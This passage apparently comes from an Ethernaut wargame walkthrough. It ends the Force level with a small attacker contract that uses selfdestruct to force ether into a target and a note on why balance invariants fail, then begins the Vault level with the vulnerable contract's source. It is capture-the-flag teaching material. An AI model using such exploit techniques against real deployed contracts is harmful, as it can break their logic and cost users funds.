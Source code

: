        receive() external payable {
       }

       function selfDestroy() public payable {
           selfdestruct(s_forceAddress);
       }
   }
   ```

5. We deploy the code and fund the `ForceForceToReceive` contract, and call the `selfDestroy()` method. All the money will be transferred to the Force contract whether it likes it or not.

### Notes

In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

### Special Mention

[0xSage my fucking savior](https://medium.com/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57)

## 8. Vault

### Goal

Unlock the `Vault`.

### Source Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
